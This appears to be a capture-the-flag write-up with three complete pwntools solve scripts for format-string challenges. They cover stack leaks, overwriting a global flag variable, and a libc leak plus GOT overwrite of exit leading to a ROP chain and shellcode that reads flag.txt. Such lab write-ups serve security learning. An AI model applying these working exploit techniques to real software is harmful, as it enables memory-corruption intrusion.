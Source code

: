 +++
title = "Week 05"
weight = 4
slug="week-05"
description = "- echo1: printf leaking stack values<br>- echo2: printf overwrite variable<br>- echo3: leaking libc and main, then overwriting the GOT entry for exit to jump to a ROPchain"
+++

# echo1
Just spammed `%p` and decoded the ASCII looking things.

Solve script:
``` py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./echo1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.cybr.club", 7014)

    return r


def main():
    r = conn()
    # honestly just tried a bunch of format strings until I noticed the hex form of gigem when trying $p a bunch. Then I just printed the next several pointers and manually decoded and reversed the flag in cyberchef
    r.sendline(b'%14$p.%15$p.%16$p.%17$p.%18$p.%19$p.')
    print(r.recv())
    
if __name__ == "__main__":
    main()
```

# echo2
To figure out things like the address of main being `%19$p`, I first ran it in gdb with a breakpoint after the printf call and spammed %p into the input, then checked what each pointer on the stack corresponded to by disassembling/examinig the memory at each pointer.

Solve script:
``` py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./echo2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("128.199.12.141", 7014)

    return r


def main():
    r = conn()

    # good luck pwning :)

    # first leak address of main to be able to get the offest to the global variable
    r.recvline()
    r.sendline(b'%19$p')
    main_addr = int(r.recvline(), 16)
    
    # pwntools go brr
    authorized_addr = main_addr + 0x2e8f
    writes = {authorized_addr: 0x1}
    payload = fmtstr_payload(6, writes)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

# echo3
Very fun, try it yourself first if you can, seccomp is a funny thing. I had to try several things while debugging so there are probably unused gadgets lying around in the solve script, I'll go back and clean this up later.

Solve script:
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./echo3_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r)
    else:
        r = remote("128.199.12.141", 7015)

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendline(b'%2$p')
    buf_addr = int(r.recvline(), 16)

    r.sendline(b'%21$p')
    main_addr = int(r.recvline(), 16)

    r.sendline(b'%17$p')
    libc_base = int(r.recvline(), 16) - 235 - libc.sym['__libc_start_main']

    print(hex(buf_addr))
    print(hex(main_addr))
    print(hex(libc_base))

    exit_addr = main_addr + 0x2ea3
    print('exit@got.plt:', hex(exit_addr))

    pop_pop_ret = 0x23a5c + libc_base

    print('pop_pop_ret', hex(pop_pop_ret))
    pop_pop_ret = p64(pop_pop_ret)

    for i in range(0, 8, 2):
        writes = {exit_addr+i: pop_pop_ret[i:i+2]}
        payload = fmtstr_payload(6, writes)        
        print(len(payload))
        r.sendline(payload)
    
    r.recv()

    syscall = p64(libc_base + 0xb58a5)
    write_addr = main_addr + 0x2e4b
    rdi_ret = p64(libc_base + 0x23a5f)
    rsi_ret = p64(libc_base + 0x2440e)
    rdx_rsi_ret = p64(libc_base + 0x106179)
    rax_ret = p64(libc_base + 0x3a638)
    rsp_r14_ret = p64(libc_base + 0xb4d9a)

    shellcode_addr = p64(main_addr - 0x11b5)
    shellcode = asm(shellcraft.cat('./flag.txt'))

    # funnily have to define payload1 before payload0 since it needs to know the length of what it is reading
    payload1 = b'A'*8 + rax_ret + p64(10) + rdi_ret + shellcode_addr + rdx_rsi_ret + p64(7) + p64(0x1000) + syscall
    payload1 += rax_ret + p64(0) + rdi_ret + p64(0) + rdx_rsi_ret + p64(len(shellcode)) + shellcode_addr + syscall
    payload1 += shellcode_addr

    # rax and rdi are already 0, no need to set them
    payload0 = rdx_rsi_ret + p64(len(payload1)) + p64(write_addr) + syscall + rsp_r14_ret + p64(write_addr)

    
    r.sendline(b'n' + b'\x00'*7 + payload0 + b'B'*(63-9-len(payload0)))
    r.send(payload1)
    r.sendline(shellcode)
    r.interactive()


if __name__ == "__main__":
    main()

```
